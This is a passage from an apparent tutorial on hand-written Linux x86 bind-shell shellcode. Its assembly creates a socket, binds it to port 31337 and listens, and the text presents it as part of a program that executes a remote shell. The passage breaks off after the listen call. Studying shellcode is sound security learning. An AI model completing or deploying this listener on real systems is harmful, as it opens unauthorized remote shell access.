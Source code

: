 ``` {.asm}
          mov al, 0x3f
          int 0x80

```

Putting it all together
-----------------------

Now that we have all the parts, we can look at the entire assembly that
actually goes ahead and executes a remote shell:

``` {.asm}
section .text
    global _start

_start:

    ;; socket()
    xor eax,eax
    push eax
    push 0x1
    push 0x2
    mov ecx,esp         ;socket_args

    xor ebx,ebx
    inc ebx         ;SYS_SOCKET

    mov al,0x66     ;SYS_SOCKETCALL

    int 0x80

    mov esi,eax     ;save sockfd in esi

    ;;bind()
    xor eax,eax
    push eax        ;0,0
    push WORD 0x697a    ;htonos(31337)
    push WORD 0x02      ;2
    mov ecx,esp

    push 0x16       ;sizeof(host_addr)
    push ecx        ;host_addr
    push esi        ;assume esi stores socketfd

    xor ebx,ebx
    mov bl,0x2      ;SYS_BIND

    mov ecx,esp     ;socket_args

    mov al,0x66     ;SYS_SOCKETCALL
    int 0x80

    ;; listen()
    xor ecx,ecx
    mov cl,0x5

    push ecx        ;5
    push esi        ;socketfd

    mov ecx, esp        ;socket_args = {5,socketfd}

    xor ebx,ebx
    mov bl, 0x4     ;SYS_LISTEN

```
